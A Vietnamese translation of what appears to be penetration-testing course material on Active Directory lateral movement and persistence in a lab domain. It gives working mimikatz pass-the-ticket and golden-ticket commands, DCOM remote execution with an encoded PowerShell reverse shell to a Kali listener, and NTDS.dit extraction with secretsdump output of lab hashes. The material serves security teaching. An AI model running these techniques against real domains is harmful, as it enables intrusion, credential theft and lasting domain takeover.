Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
corp\jen

C:\Windows\system32>hostname
FILES04
```

                                                 *Listing 22 – Mở kết nối từ xa bằng Kerberos*

Như được thể hiện trong output, chúng ta đã tái sử dụng thành công Kerberos TGT để khởi chạy một command shell trên server files04.

Xuất sắc! Chúng ta đã nâng cấp thành công một NTLM password hash được cache thành một Kerberos TGT để giành được remote code execution thay mặt cho một user khác.

---

## 1.5. Pass the Ticket

---

Trong phần trước, chúng ta đã sử dụng kỹ thuật overpass the hash (kết hợp với NTLM hash đã thu thập được) để giành được một Kerberos TGT, cho phép chúng ta xác thực bằng Kerberos. Chúng ta chỉ có thể sử dụng TGT trên chính máy mà nó được tạo ra, nhưng TGS thì có khả năng mang lại nhiều tính linh hoạt hơn.

Cuộc tấn công Pass the Ticket khai thác TGS, vốn có thể được export và inject lại ở nơi khác trong mạng, sau đó được sử dụng để xác thực tới một dịch vụ cụ thể. Ngoài ra, nếu các service ticket thuộc về user hiện tại, thì không cần quyền quản trị.

Trong kịch bản này, chúng ta sẽ lạm dụng một session đã tồn tại của user dave. User dave có quyền truy cập đặc quyền tới thư mục backup nằm trên WEB04, trong khi user đang đăng nhập của chúng ta là jen thì không có.

Để minh họa hướng tấn công này, chúng ta sẽ trích xuất tất cả các TGT/TGS hiện có trong bộ nhớ và inject TGS của dave đối với WEB04 vào session của chính chúng ta. Điều này sẽ cho phép chúng ta truy cập vào thư mục bị hạn chế.

Trước tiên, hãy đăng nhập với tư cách jen vào CLIENT76 và xác minh rằng chúng ta không thể truy cập tài nguyên trên WEB04. Để làm điều đó, chúng ta sẽ thử liệt kê nội dung của thư mục \web04\backup từ một phiên PowerShell với quyền quản trị.

```
PS C:\Windows\system32> whoami
corp\jen
PS C:\Windows\system32> ls \\web04\backup
ls : Access to the path '\\web04\backup' is denied.
At line:1 char:1
+ ls \\web04\backup
+ ~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\web04\backup:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

           *Listing 23 – Xác minh rằng user jen không có quyền truy cập vào thư mục được chia sẻ*

Sau khi xác nhận rằng jen không có quyền truy cập vào thư mục bị hạn chế, chúng ta có thể khởi chạy mimikatz, bật debug privileges và export tất cả các TGT/TGS từ bộ nhớ bằng lệnh `sekurlsa::tickets /export`.

```
mimikatz #privilege::debug
Privilege '20' OK

mimikatz #sekurlsa::tickets /export

Authentication Id : 0 ; 2037286 (00000000:001f1626)
Session           : Batch from 0
User Name         : dave
Domain            : CORP
Logon Server      : DC1
Logon Time        : 9/14/2022 6:24:17 AM
SID               : S-1-5-21-1987370270-658905905-1781884369-1103

         * Username : dave
         * Domain   : CORP.COM
         * Password : (null)

        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?

        Group 2 - Ticket Granting Ticket
         [00000000]
           Start/End/MaxRenew: 9/14/2022 6:24:17 AM ; 9/14/2022 4:24:17 PM ; 9/21/2022 6:24:17 AM
           Service Name (02) : krbtgt ; CORP.COM ; @ CORP.COM
           Target Name  (02) : krbtgt ; CORP ; @ CORP.COM
           Client Name  (01) : dave ; @ CORP.COM ( CORP )
           Flags 40c10000    : name_canonicalize ; initial ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             f0259e075fa30e8476836936647cdabc719fe245ba29d4b60528f04196745fe6
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 2        [...]
           * Saved to file [0;1f1626]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi !
...
```

                                                *Listing 24 – Export Kerberos TGT/TGS ra đĩa*

Lệnh trên đã phân tích không gian bộ nhớ của tiến trình LSASS để tìm các TGT/TGS, sau đó lưu chúng xuống đĩa ở định dạng kirbi của mimikatz.

Việc kiểm tra các ticket được tạo ra cho thấy dave đã khởi tạo một session. Chúng ta có thể thử inject một trong các ticket của dave vào session của jen.

Chúng ta có thể xác minh các ticket mới được tạo bằng lệnh dir, lọc theo phần mở rộng kirbi.

```
PS C:\Tools> dir *.kirbi

    Directory: C:\Tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/14/2022   6:24 AM           1561 [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;12bd0]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c6860]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c6860]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c7bcc]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c7bcc]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1c933d]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1c933d]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
-a----        9/14/2022   6:24 AM           1561 [0;1ca6c2]-0-0-40810000-dave@cifs-web04.kirbi
-a----        9/14/2022   6:24 AM           1505 [0;1ca6c2]-2-0-40c10000-dave@krbtgt-CORP.COM.kirbi
...
```

                               *Listing 25 – Liệt kê các Kerberos TGT/TGS đã được export ra đĩa*

Vì có nhiều ticket đã được tạo, chúng ta có thể chọn bất kỳ TGS nào ở định dạng dave@cifs-web04.kirbi và inject nó thông qua mimikatz bằng lệnh `kerberos::ptt`.

```
mimikatz # kerberos::ptt [0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi

* File: '[0;12bd0]-0-0-40810000-dave@cifs-web04.kirbi': OK
```

                                      *Listing 26 – Inject TGS đã chọn vào bộ nhớ của process*

Không có lỗi nào được đưa ra, điều này có nghĩa là chúng ta có thể kỳ vọng ticket đã xuất hiện trong session của mình khi chạy lệnh klist.

```
PS C:\Tools> klist

Current LogonId is 0:0x13bca7

Cached Tickets: (1)

#0>     Client: dave @ CORP.COM
        Server: cifs/web04 @ CORP.COM
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40810000 -> forwardable renewable name_canonicalize
        Start Time: 9/14/2022 5:31:32 (local)
        End Time:   9/14/2022 15:31:13 (local)
        Renew Time: 9/21/2022 5:31:13 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

                                   *Listing 27 – Kiểm tra ticket đã được inject trong bộ nhớ*

Chúng ta nhận thấy ticket của dave đã được import thành công vào session của chính mình, dù user hiện tại là jen.

Hãy xác nhận rằng chúng ta đã được cấp quyền truy cập vào thư mục chia sẻ bị hạn chế.

```
PS C:\Tools> ls \\web04\backup

    Directory: \\web04\backup

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/13/2022   2:52 AM              0 backup_schemata.txt
```

                             *Listing 28 – Truy cập thư mục chia sẻ thông qua ticket đã được inject*

Tuyệt vời! Chúng ta đã truy cập thành công vào thư mục bằng cách mạo danh danh tính của dave sau khi inject authentication token của user này vào process của user hiện tại.

---

## 1.6. DCOM

---

Trong phần này, chúng ta sẽ xem xét một kỹ thuật lateral movement tương đối mới khai thác Distributed Component Object Model (DCOM) và tìm hiểu cách nó có thể bị lạm dụng cho lateral movement.

Microsoft Component Object Model (COM) là một hệ thống để tạo các software component có thể tương tác với nhau. Trong khi COM ban đầu được tạo ra cho việc tương tác trong cùng một process hoặc giữa các process khác nhau, nó đã được mở rộng thành Distributed Component Object Model (DCOM) để cho phép tương tác giữa nhiều máy tính qua mạng.

Cả COM và DCOM đều là các công nghệ rất cũ, có từ những phiên bản Windows đầu tiên. Việc tương tác với DCOM được thực hiện qua RPC trên cổng TCP 135 và yêu cầu quyền local administrator để gọi DCOM Service Control Manager, vốn về bản chất là một API.

Cybereason đã ghi nhận một tập hợp nhiều kỹ thuật lateral movement khác nhau dựa trên DCOM, bao gồm một kỹ thuật do Matt Nelson phát hiện, mà chúng ta sẽ đề cập trong phần này.

Kỹ thuật lateral movement DCOM được phát hiện này dựa trên ứng dụng COM Microsoft Management Console (MMC), vốn được sử dụng cho việc tự động hóa có kịch bản (scripted automation) các hệ thống Windows.

MMC Application Class cho phép tạo các Application Object, các đối tượng này cung cấp phương thức `ExecuteShellCommand` thông qua thuộc tính `Document.ActiveView`. Như tên gọi cho thấy, phương thức này cho phép thực thi bất kỳ shell command nào, miễn là user đã xác thực có quyền phù hợp, điều này theo mặc định là đúng với local administrator.

Chúng ta sẽ minh họa cuộc tấn công lateral movement này với tư cách user jen, đang đăng nhập từ host Windows 11 CLIENT74 đã bị compromise trước đó.

Từ một PowerShell prompt có quyền cao, chúng ta có thể khởi tạo một ứng dụng MMC 2.0 từ xa bằng cách chỉ định IP mục tiêu của FILES04 làm tham số thứ hai của phương thức `GetTypeFromProgID`.

```
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1","192.168.50.73"))
```

                                        *Listing 29 – Khởi tạo đối tượng MMC Application từ xa*

Sau khi đối tượng application được lưu vào biến `$dcom`, chúng ta có thể truyền các tham số cần thiết cho ứng dụng thông qua phương thức `ExecuteShellCommand`. Phương thức này chấp nhận bốn tham số: `Command`, `Directory`, `Parameters` và `WindowState`. Chúng ta chỉ quan tâm đến tham số thứ nhất và thứ ba, lần lượt sẽ được gán là cmd và /c calc.

```
$dcom.Document.ActiveView.ExecuteShellCommand("cmd",$null,"/c calc","7")
```

                                      *Listing 30 – Thực thi một lệnh trên đối tượng DCOM từ xa*

Sau khi thực thi hai dòng PowerShell này từ CLIENT74, chúng ta sẽ spawn được một instance của ứng dụng calculator.

Vì process này chạy trong Session 0, chúng ta có thể xác minh calculator đang chạy bằng lệnh tasklist và lọc output bằng findstr.

```
C:\Users\Administrator>tasklist | findstr "calc"
win32calc.exe                 4764 Services                   0     12,132 K

```

                                         *Listing 31 – Xác minh calculator đang chạy trên FILES04*

Bây giờ, chúng ta có thể nâng cao hơn kỹ thuật này bằng cách mở rộng cuộc tấn công thành một reverse shell hoàn chỉnh, tương tự như những gì chúng ta đã làm trong phần WMI và WinRM trước đó trong Module này.

Sau khi đã tạo reverse shell được encode base64 bằng script Python, chúng ta có thể thay thế payload DCOM bằng payload này.

```
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,"powershell -nop -w hidden -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQA5A...
AC4ARgBsAHUAcwBoACgAKQB9ADsAJABjAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkA","7")
```

                                 *Listing 32 – Thêm payload reverse shell DCOM trên CLIENT74*

Chuyển sang máy Kali, chúng ta có thể xác minh các kết nối đến listener mà chúng ta đã thiết lập đồng thời.

```
kali@kali:~$ nc -lnvp 443
listening on [any] 443 ...
connect to [192.168.118.2] from (UNKNOWN) [192.168.50.73] 50778

PS C:\Windows\system32> whoami
corp\jen

PS C:\Windows\system32> hostname
FILES04
```

                        *Listing 33 – Nhận reverse shell thông qua lateral movement bằng DCOM*

Xuất sắc! Chúng ta đã giành được chỗ đứng trên một máy nội bộ bổ sung bằng cách lạm dụng ứng dụng DCOM MMC.

Trong Learning Unit này, chúng ta đã học lý thuyết đằng sau nhiều cuộc tấn công lateral movement khác nhau và cách thực thi chúng từ các client đã bị compromise.

Tiếp theo, chúng ta sẽ tìm hiểu cách duy trì quyền truy cập trong mạng mục tiêu thông qua các kỹ thuật persistence.

---

# 2. Persistence trong Active Directory

---

Learning Unit này bao gồm các Learning Objective sau:

- Hiểu mục đích chung của các kỹ thuật persistence
- Lạm dụng golden ticket như một cuộc tấn công persistence
- Tìm hiểu về shadow copy và cách chúng có thể bị lạm dụng cho persistence

Một khi kẻ tấn công đã giành được quyền truy cập vào một hoặc nhiều host, chúng sẽ muốn duy trì quyền truy cập đó càng lâu càng tốt. Điều này có nghĩa là quyền truy cập của kẻ tấn công vào mạng mục tiêu phải tiếp tục tồn tại sau khi reboot hoặc thậm chí sau khi thay đổi thông tin xác thực. MITRE định nghĩa persistence tactic là một tập hợp các kỹ thuật nhằm duy trì foothold của kẻ tấn công trên mạng mục tiêu.

Chúng ta có thể sử dụng các phương pháp persistence truyền thống trong môi trường Active Directory, nhưng đồng thời cũng có thể đạt được các cơ chế persistence chuyên biệt cho AD.

Lưu ý rằng trong nhiều bài penetration test thực tế hoặc các chiến dịch red-team, persistence thường không nằm trong phạm vi đánh giá do rủi ro không thể loại bỏ hoàn toàn sau khi quá trình đánh giá kết thúc.

Trong Learning Unit tiếp theo, chúng ta sẽ khám phá cách các kỹ thuật golden ticket và shadow copy có thể bị lạm dụng để duy trì quyền truy cập.

---

## 2.1. Golden Ticket

---

Quay lại phần giải thích về xác thực Kerberos, chúng ta nhớ rằng khi một user gửi yêu cầu xin TGT, KDC sẽ mã hóa TGT bằng một secret key chỉ được biết bởi các KDC trong domain. Secret key này chính là password hash của một tài khoản domain user có tên là **`krbtgt`**.

Nếu chúng ta có được password hash của krbtgt, chúng ta có thể tự tạo ra các TGT tùy chỉnh của riêng mình, còn được gọi là **`golden ticket`**.

Mặc dù tên của kỹ thuật này khá giống với Silver Ticket mà chúng ta đã gặp trong Module Attacking Authentication, Golden Ticket cung cấp một vector tấn công mạnh mẽ hơn nhiều. Trong khi Silver Ticket nhằm giả mạo một TGS để truy cập một dịch vụ cụ thể, Golden Ticket cho phép chúng ta truy cập vào toàn bộ tài nguyên của domain, như chúng ta sẽ thấy ngay sau đây.

Ví dụ, chúng ta có thể tạo một TGT khai báo rằng một user không có đặc quyền là thành viên của nhóm Domain Admins, và domain controller sẽ tin tưởng ticket này vì nó được mã hóa một cách hợp lệ.

Chúng ta phải hết sức cẩn trọng trong việc bảo vệ các password hash krbtgt đã đánh cắp, vì chúng cung cấp quyền truy cập domain không giới hạn. Hãy cân nhắc việc xin phép rõ ràng từ phía khách hàng trước khi thực hiện kỹ thuật này.

Đây là một phương pháp rất hiệu quả để duy trì persistence trong môi trường Active Directory, nhưng ưu điểm lớn nhất là mật khẩu của tài khoản krbtgt **không được thay đổi tự động**.

Mật khẩu này chỉ được thay đổi khi Domain Functional Level được nâng cấp từ Windows Server trước năm 2008, chứ không phải từ các phiên bản mới hơn. Vì lý do đó, việc bắt gặp các password hash krbtgt rất cũ là điều không hiếm.

Domain Functional Level quy định các khả năng của domain và xác định những hệ điều hành Windows nào có thể chạy trên domain controller. Các mức functional level cao hơn sẽ kích hoạt thêm các tính năng, chức năng và biện pháp giảm thiểu rủi ro bảo mật.

Để kiểm thử kỹ thuật persistence này, trước tiên chúng ta sẽ cố gắng di chuyển ngang từ workstation Windows 11 CLIENT74 sang domain controller thông qua PsExec với tư cách user jen bằng cách spawn một command shell truyền thống với lệnh cmd. Thao tác này sẽ thất bại vì chúng ta không có đủ quyền.

```
C:\Tools\SysinternalsSuite>PsExec64.exe \\DC1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access DC1:
Access is denied.
```

                                               *Listing 34 – Thử lateral movement nhưng thất bại*

Hoàn hảo, đúng như mong đợi.

Ở giai đoạn này của engagement, golden ticket yêu cầu chúng ta phải có quyền truy cập vào một tài khoản thuộc nhóm Domain Admins hoặc đã compromise được domain controller để có thể hoạt động như một cơ chế persistence.

Với loại quyền truy cập này, chúng ta có thể trích xuất password hash của tài khoản krbtgt bằng Mimikatz.

Để mô phỏng điều này, chúng ta sẽ đăng nhập vào domain controller thông qua Remote Desktop bằng tài khoản jeffadmin. Sau đó, chúng ta sẽ chạy Mimikatz từ thư mục C:\Tools và thực thi lệnh `lsadump::lsa` như minh họa bên dưới:

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # lsadump::lsa /patch
Domain : CORP / S-1-5-21-1987370270-658905905-1781884369

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : 2892d26cdf84d7a70e2eb3b9f05c425e

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000001f6 (502)
User : krbtgt
LM   :
NTLM : 1693c6cefafffc7af11ef34d1c788f47
...
```

                               *Listing 35 – Dump password hash của krbtgt bằng Mimikatz*

Sau khi thu được NTLM hash của tài khoản krbtgt cùng với domain SID, chúng ta có thể tiến hành forge và inject golden ticket.

Việc tạo golden ticket và inject nó vào bộ nhớ **không yêu cầu quyền quản trị**, và thậm chí có thể được thực hiện từ một máy không join domain.

Chúng ta sẽ lấy hash này và tiếp tục quy trình từ một workstation đã bị compromise.

Hãy quay lại CLIENT74 với tư cách user jen. Trước khi tạo golden ticket, chúng ta khởi chạy mimikatz và xóa tất cả các Kerberos ticket hiện có bằng lệnh `kerberos::purge`.

```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
```

                                                      *Listing 36 – Xóa các Kerberos ticket hiện có*

Tiếp theo, chúng ta cung cấp domain SID (có thể thu thập bằng lệnh whoami /user) cho lệnh `kerberos::golden` của Mimikatz để tạo golden ticket.

Lần này, chúng ta sẽ sử dụng tùy chọn `/krbtgt` thay vì `/rc4` để chỉ ra rằng chúng ta đang cung cấp password hash của tài khoản krbtgt. Kể từ tháng 7 năm 2022, Microsoft đã cải thiện quy trình xác thực, vì vậy chúng ta cần cung cấp một tài khoản tồn tại. Hãy đặt username của golden ticket là jen. Trước đây, việc tài khoản có tồn tại hay không không quan trọng.

```
mimikatz # kerberos::golden /user:jen /domain:corp.com /sid:S-1-5-21-1987370270-658905905-1781884369 /krbtgt:1693c6cefafffc7af11ef34d1c788f47 /ptt
User      : jen
Domain    : corp.com (CORP)
SID       : S-1-5-21-1987370270-658905905-1781884369
User Id   : 500    
Groups Id : *513 512 520 518 519
ServiceKey: 1693c6cefafffc7af11ef34d1c788f47 - rc4_hmac_nt
Lifetime  : 9/16/2022 2:15:57 AM ; 9/13/2032 2:15:57 AM ; 9/13/2032 2:15:57 AM
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'jen @ corp.com' successfully submitted for current session

mimikatz # misc::cmd
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF665F1B800
```

                                             *Listing 37 – Tạo golden ticket bằng Mimikatz*

Mimikatz cung cấp hai tập giá trị mặc định khi sử dụng tùy chọn golden ticket: user ID và groups ID. User ID mặc định là 500, tương ứng với RID của tài khoản administrator tích hợp sẵn của domain. Các giá trị groups ID bao gồm những nhóm có đặc quyền cao nhất trong Active Directory, trong đó có nhóm Domain Admins.

Sau khi golden ticket đã được inject vào bộ nhớ, hãy sử dụng PsExec để khởi chạy một command prompt mới thông qua misc::cmd.

```
C:\Tools\SysinternalsSuite>PsExec.exe \\dc1 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Windows\system32>ipconfig

Windows IP Configuration

Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::5cd4:aacd:705a:3289%14
   IPv4 Address. . . . . . . . . . . : 192.168.50.70
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 192.168.50.254
C:\Windows\system32>whoami
corp\jen
```

                                               *Listing 38 – Sử dụng PsExec để truy cập DC01*

Tuyệt vời! Chúng ta đã có một command prompt tương tác trên domain controller. Bây giờ, hãy sử dụng lệnh whoami để xác minh rằng user jen hiện đã là thành viên của nhóm Domain Admin.

```
C:\Windows\system32>whoami /groups

GROUP INFORMATION
-----------------

Group Name                                  Type             SID                                          Attributes    
=========================================== ================ ============================================ ===============================================================
Everyone                                    Well-known group S-1-1-0                                      Mandatory group, Enabled by default, Enabled group
BUILTIN\Administrators                      Alias            S-1-5-32-544                                 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                               Alias            S-1-5-32-545                                 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access  Alias            S-1-5-32-554                                 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                        Well-known group S-1-5-2                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users            Well-known group S-1-5-11                                     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization              Well-known group S-1-5-15                                     Mandatory group, Enabled by default, Enabled group
CORP\Domain Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-512 Mandatory group, Enabled by default, Enabled group
CORP\Group Policy Creator Owners            Group            S-1-5-21-1987370270-658905905-1781884369-520 Mandatory group, Enabled by default, Enabled group
CORP\Schema Admins                          Group            S-1-5-21-1987370270-658905905-1781884369-518 Mandatory group, Enabled by default, Enabled group
CORP\Enterprise Admins                      Group            S-1-5-21-1987370270-658905905-1781884369-519 Mandatory group, Enabled by default, Enabled group
CORP\Denied RODC Password Replication Group Alias            S-1-5-21-1987370270-658905905-1781884369-572 Mandatory group, Enabled by default, Enabled group, Local Group
Mandatory Label\High Mandatory Level        Label            S-1-16-12288      
```

               *Listing 39 – Thực hiện lateral movement và persistence bằng golden ticket và PsExec*

Hoàn hảo! Việc liệt kê group membership cho thấy chúng ta hiện là thành viên của nhiều nhóm quyền lực, bao gồm cả nhóm Domain Admins.

Lưu ý rằng bằng cách tự tạo TGT và sau đó sử dụng PsExec, chúng ta đang thực hiện kỹ thuật overpass the hash thông qua xác thực Kerberos, như đã thảo luận trước đó trong Module này.

Nếu chúng ta kết nối PsExec tới địa chỉ IP của domain controller thay vì hostname, chúng ta sẽ buộc sử dụng xác thực NTLM và quyền truy cập vẫn sẽ bị chặn. Điều này được minh họa trong listing bên dưới.

```
C:\Tools\SysinternalsSuite> psexec.exe \\192.168.50.70 cmd.exe

PsExec v2.4 - Execute processes remotely
Copyright (C) 2001-2022 Mark Russinovich
Sysinternals - www.sysinternals.com

Couldn't access 192.168.50.70:
Access is denied.
```

                                       *Listing 40 – Sử dụng xác thực NTLM khiến truy cập bị chặn*

Trong phần này, chúng ta đã trình bày kỹ thuật golden ticket như một cơ chế persistence. Bằng cách thu được NTLM hash của user krbtgt, chúng ta có thể phát hành các TGT có quyền quản trị domain cho bất kỳ tài khoản có đặc quyền thấp nào đang tồn tại. Điều này cho phép chúng ta giành được quyền truy cập hợp lệ, kín đáo vào toàn bộ AD domain.

---

## 2.2. **Shadow Copies**

---

Shadow Copy, còn được gọi là **Volume Shadow Service (VSS)**, là một công nghệ sao lưu của Microsoft cho phép tạo các bản snapshot (ảnh chụp nhanh) của tệp tin hoặc toàn bộ volume.

Để quản lý các volume shadow copy, Microsoft cung cấp binary đã được ký số là **vshadow.exe** như một phần của **Windows SDK**.

Với quyền **Domain Admin**, chúng ta có thể lạm dụng tiện ích **vshadow** để tạo một Shadow Copy, từ đó cho phép trích xuất file cơ sở dữ liệu **Active Directory – NTDS.dit**. Sau khi đã có được bản sao của cơ sở dữ liệu này, chúng ta cần thêm **SYSTEM hive**, và khi đó có thể trích xuất toàn bộ thông tin xác thực của người dùng một cách offline trên máy Kali cục bộ.

Để bắt đầu, chúng ta sẽ kết nối tới domain controller **DC1** với tư cách người dùng domain admin **`jeffadmin`**. Tại đây, chúng ta mở **command prompt với quyền cao (elevated)** và chạy tiện ích **`vshadow`** với tùy chọn **`-nw`** để vô hiệu hóa writers (giúp tăng tốc quá trình tạo bản sao lưu), đồng thời sử dụng tùy chọn **-p** để lưu bản snapshot xuống đĩa.

```
C:\Tools>vshadow.exe -nw -p  C:

VSHADOW.EXE 3.0 - Volume Shadow Copy sample client.
Copyright (C) 2005 Microsoft Corporation. All rights reserved.

(Option: No-writers option detected)
(Option: Create shadow copy set)
- Setting the VSS context to: 0x00000010
Creating shadow set {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...
- Adding volume \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\] to the shadow set...
Creating the shadow (DoSnapshotSet) ...
(Waiting for the asynchronous operation to finish...)
Shadow copy set succesfully created.

List of created shadow copies:

Querying all shadow copies with the SnapshotSetID {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5} ...

* SNAPSHOT ID = {c37217ab-e1c4-4245-9dfe-c81078180ae5} ...
   - Shadow copy Set: {f7f6d8dd-a555-477b-8be6-c9bd2eafb0c5}
   - Original count of shadow copies = 1
   - Original Volume name: \\?\Volume{bac86217-0fb1-4a10-8520-482676e08191}\ [C:\]
   - Creation Time: 9/19/2022 4:31:51 AM
   - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
   - Originating machine: DC1.corp.com
   - Service machine: DC1.corp.com
   - Not Exposed
   - Provider id: {b5946137-7b9f-4925-af80-51abd60b20d5}
   - Attributes:  Auto_Release No_Writers Differential

Snapshot creation done.
```

                                           *Listing 41 -Thực hiện Shadow Copy toàn bộ ổ C:*

Sau khi snapshot được tạo thành công, chúng ta cần **ghi nhớ tên thiết bị shadow copy**.

Tiếp theo, chúng ta sẽ **sao chép toàn bộ cơ sở dữ liệu AD** từ shadow copy sang thư mục gốc của ổ C: bằng cách chỉ định tên thiết bị shadow copy và đường dẫn đầy đủ tới file **ntds.dit**.

```
C:\Tools>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\windows\ntds\ntds.dit c:\ntds.dit.bak
   1 file(s) copied.
```

                                           *Listing 42 - Sao chép cơ sở dữ liệu ntds sang ổ C:*

Thành phần cuối cùng cần thiết để trích xuất đúng nội dung của **ntds.dit** là **SYSTEM hive** từ Windows Registry. Ta có thể thực hiện việc này bằng tiện ích **reg** với tham số **save**.

```
C:\>reg.exe save hklm\system c:\system.bak
The operation completed successfully.
```

                                                           *Listing 43 - Sao chép SYSTEM hive*

Sau khi hai file `.bak` được chuyển sang máy Kali, chúng ta có thể tiếp tục trích xuất thông tin xác thực bằng công cụ **`secretsdump`** trong bộ **`impacket`**. Ta cung cấp file **ntds.dit** với tham số **`-ntds`**, SYSTEM hive với **`-system`**, và yêu cầu impacket phân tích offline bằng từ khóa **LOCAL**.

```
kali@kali:~$ impacket-secretsdump -ntds ntds.dit.bak -system system.bak LOCAL
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Target system bootKey: 0xbbe6040ef887565e9adb216561dc0620
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 98d2b28135d3e0d113c4fa9d965ac533
[*] Reading and decrypting hashes from ntds.dit.bak
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2892d26cdf84d7a70e2eb3b9f05c425e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:eda4af1186051537c77fa4f53ce2fe1a:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1693c6cefafffc7af11ef34d1c788f47:::
dave:1103:aad3b435b51404eeaad3b435b51404ee:08d7a47a6f9f66b97b1bae4178747494:::
stephanie:1104:aad3b435b51404eeaad3b435b51404ee:d2b35e8ac9d8f4ad5200acc4e0fd44fa:::
jeff:1105:aad3b435b51404eeaad3b435b51404ee:2688c6d2af5e9c7ddb268899123744ea:::
jeffadmin:1106:aad3b435b51404eeaad3b435b51404ee:e460605a9dbd55097c6cf77af2f89a03:::
iis_service:1109:aad3b435b51404eeaad3b435b51404ee:4d28cf5252d39971419580a51484ca09:::
WEB04$:1112:aad3b435b51404eeaad3b435b51404ee:87db4a6147afa7bdb46d1ab2478ffe9e:::
FILES04$:1118:aad3b435b51404eeaad3b435b51404ee:d75ffc4baaeb9ed40f7aa12d1f57f6f4:::
CLIENT74$:1121:aad3b435b51404eeaad3b435b51404ee:5eca857673356d26a98e2466a0fb1c65:::
CLIENT75$:1122:aad3b435b51404eeaad3b435b51404ee:b57715dcb5b529f212a9a4effd03aaf6:::
pete:1123:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
jen:1124:aad3b435b51404eeaad3b435b51404ee:369def79d8372408bf6e93364cc93075:::
CLIENT76$:1129:aad3b435b51404eeaad3b435b51404ee:6f93b1d8bbbe2da617be00961f90349e:::
[*] Kerberos keys from ntds.dit.bak
Administrator:aes256-cts-hmac-sha1-96:56136fd5bbd512b3670c581ff98144a553888909a7bf8f0fd4c424b0d42b0cdc
Administrator:aes128-cts-hmac-sha1-96:3d58eb136242c11643baf4ec85970250
Administrator:des-cbc-md5:fd79dc380ee989a4
DC1$:aes256-cts-hmac-sha1-96:fb2255e5983e493caaba2e5693c67ceec600681392e289594b121dab919cef2c
DC1$:aes128-cts-hmac-sha1-96:68cf0d124b65310dd65c100a12ecf871
DC1$:des-cbc-md5:f7f804ce43264a43
krbtgt:aes256-cts-hmac-sha1-96:e1cced9c6ef723837ff55e373d971633afb8af8871059f3451ce4bccfcca3d4c
krbtgt:aes128-cts-hmac-sha1-96:8c5cf3a1c6998fa43955fa096c336a69
krbtgt:des-cbc-md5:683bdcba9e7c5de9
...
[*] Cleaning up...
```

